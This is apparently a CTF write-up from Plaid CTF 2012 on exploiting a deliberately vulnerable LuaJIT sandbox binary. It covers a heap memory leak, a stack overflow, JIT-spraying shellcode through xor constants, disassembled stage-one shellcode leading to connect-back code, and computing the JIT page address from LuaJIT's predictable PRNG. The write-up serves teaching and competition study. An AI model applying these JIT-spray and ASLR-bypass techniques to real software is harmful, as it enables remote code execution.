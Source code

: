 ```yaml
---
title: jit source and writeup
author: ricky
layout: post
permalink: /?p=789
categories:
  - Write-Ups
---
```

This is the third of a series of posts where we’ll give our solutions (as well as source code) for some problems from Plaid CTF 2012. 

## Source code

  * [jit.c][1] 
      * [sandbox.lua][2] </ul> 
        ## Overview
        
        jit was a 64-bit C binary (PIE) running under xinetd on a Debian machine with NX and ASLR enabled. The machine that this was running on had /bin/sh chmodded 700 (otherwise, certain unfortunate 64-bit libc gadgets made this too easily solvable). 
        
        <!--more-->
        
        The program basically reads in a lua script, closes stdin, then runs it inside a restricted lua environment with only selected functions available. 
        
        ## Vulnerabilities
        
        Since the main goal of this problem was to get people to place shellcode on the JIT page, the vulnerabilities were a little bit obvious and contrived. In addition to a restricted list of standard lua functions, two C functions frob and fry were added to the environment. 
        
        Here is an excerpt of the frob function: 
        
        <pre>buf = malloc(len);
    ...
    strncpy(buf, arg, len);
    memfrob(buf, len);
    lua_pushstring(L, buf);
</pre>
        
        This can be used to leak some memory off of the heap. 
        
        The fry function calls a dofry function which looks like this: 
        
        <pre>// Only called it len &lt; 32
void dofry(lua_State *L, const char *s, size_t len) {
    char buf[8];

    strncpy(buf, s, len);
    buf[sizeof(buf)-1] = '\0';
    strfry(buf);
    lua_pushstring(L, buf);
}
</pre>
        
        which contains a pretty obvious stack buffer overflow (with just enough bytes to overwrite the return address). 
        
        ## Exploitation
        
        To exploit these vulnerabilities, we need to have our script place shellcode on the JIT page, find the address where this shellcode is located, then use the buffer overflow to set %rip to the address of the shellcode on the JIT page. 
        
        ### Getting shellcode on the JIT page
        
        Unfortunately, luajit does some optimizations which made it difficult to use standard arithmetic operators to get contants on the JIT page. However, after some experimentation, I found that bit.bxor could be used to get 4 byte constants on the JIT page. In order to make sure that the code got jitted, I placed the xors inside of a loop with 4096 iterations: 
        
        <pre>for i = 1, 4096 do
    x = b + bit.bxor(x, 0x41414141)
    x = b + bit.bxor(x, 0x42424242)
    x = b + bit.bxor(x, 0x43434343)
    ...
end
</pre>
        
        This causes code like the following to show up on the JIT page: 
        
        <pre>fe63:   81 f2 41 41 41 41       xor    $0x41414141,%edx
    fe69:   03 d1                   add    %ecx,%edx
    fe6b:   81 f2 42 42 42 42       xor    $0x42424242,%edx
    fe71:   03 d1                   add    %ecx,%edx
    fe73:   81 f2 43 43 43 43       xor    $0x43434343,%edx
    fe79:   03 d1                   add    %ecx,%edx
</pre>
        
        In order to get useful shellcode running with this, we need to jump over the <tt>add %ecx,%edx</tt> and the beginning of the xor instruction to end up in our constant again. To do this, we make each of constants something of the form 0x04ebXXXX. The <tt>eb 04</tt> jumps 4 bytes past the end of the jump instruction, which skips over the <tt>add %ecx,%edx</tt> and the beginning of the xor instruction, and lands us at the constant we used for the next xor instruction. This means that for each constant that we xor, we get 2 bytes in which to put instructions for our shellcode. 
        
        The shellcode that I ended up using looks something like this: 
        
        <pre>0:   6a 00                   pushq  $0x0
   2:   6a 00                   pushq  $0x0
   4:   5f                      pop    %rdi
   5:   58                      pop    %rax
   6:   b4 10                   mov    $0x10,%ah
   8:   50                      push   %rax
   9:   5e                      pop    %rsi
   a:   6a 07                   pushq  $0x7
   c:   5a                      pop    %rdx
   d:   6a 22                   pushq  $0x22
   f:   41 5a                   pop    %r10
  11:   6a ff                   pushq  $0xffffffffffffffff
  13:   41 58                   pop    %r8
  15:   6a 00                   pushq  $0x0
  17:   41 59                   pop    %r9
  19:   6a 09                   pushq  $0x9
  1b:   58                      pop    %rax
  1c:   0f 05                   syscall # mmap(NULL, 4096, 7, 0x22, -1, 0)
  1e:   50                      push   %rax
  1f:   5f                      pop    %rdi
  20:   59                      pop    %rcx # pop values off the stack until we get to the 2nd argument of dofry
  21:   59                      pop    %rcx
  22:   59                      pop    %rcx
  23:   59                      pop    %rcx
  24:   b3 20                   mov    $0x20,%bl
  26:   00 d9                   add    %bl,%cl # add 32 to the 2nd argument of dofry (this is where we put our connect back shellcode)
  28:   51                      push   %rcx
  29:   5e                      pop    %rsi
  2a:   6a 00                   pushq  $0x0
  2c:   59                      pop    %rcx
  2d:   b1 ff                   mov    $0xff,%cl
  2f:   f3 a4                   rep movsb %ds:(%rsi),%es:(%rdi) # copy 255 bytes of the shellcode onto our RWX page
  31:   ff e0                   jmpq   *%rax
</pre>
        
        Since every instruction is at most 2 bytes long, we can put them all on the JIT page using our 4 byte constants. This shellcode mmaps an RWX page, copies some code to it, then jumps to it. Keeping in mind that this will executed via the fry buffer overflow, the shellcode copies more shellcode from the 2nd argument to dofry, which is a string we control. 
        
        ### Finding the JIT page
        
        Using the memory disclosure in the frob function, we can leak a libc address. However, getting from that to a JIT page address requires a little bit of code reading. 
        
        In order to keep the jit page within relative jump range from the libluajit code, libluajit places JIT pages at a location relative to the location of libluajit. The code (in lj_mcode.c) looks something like this (hint is the address passed to mmap): 
        
        <pre>/* Get memory within relative jump distance of our code in 64 bit mode. */
static void *mcode_alloc(jit_State *J, size_t sz)
{
  ... 
  uintptr_t target = (uintptr_t)(void *)lj_vm_exit_handler &#038; ~(uintptr_t)0xffff;
  ...
  const uintptr_t range = (1u &lt;&lt; LJ_TARGET_JUMPRANGE) - (1u &lt;&lt; 21);
  ...
    /* Next try probing pseudo-random addresses. */
    do {
      hint = (0x78fb ^ LJ_PRNG_BITS(J, 15)) &lt;&lt; 16;  /* 64K aligned. */
    } while (!(hint + sz &lt; range));
    hint = target + hint - (range>>1);
  ...
}
</pre>
        
        The call to LJ\_PRNG\_BITS looks a little scary, but it turns out the PRNG state is always initialized to 0, so it is fully predictable. It turns out that on our system, this loop terminates after 1 iteration (and LJ\_PRNG\_BITS returns 0), so we can calculate the location of the JIT page by: 
        
        <pre>jitpage_addr = target_addr + 0x78fb0000 - 0x3ff00000
</pre>
        
        where <tt>target_addr</tt> is <tt>lj_vm_exit_handler &#038; ~0xffff</tt>. Since the distance between libc and libluajit is constant, we can use our libc address leak to determine exactly where the JIT page will be located. 
        
        ### Putting it together
        
        Now we have shellcode on the JIT page, and we can calculate where it is. We can also control %rip using the fry buffer overflow, so all we need to do is combine all of this into a lua program that performs the exploit. Here is our exploit for this problem: [exploit.lua][3].

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/jit.c
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/sandbox.lua_.txt
 [3]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/exploit.lua_.txt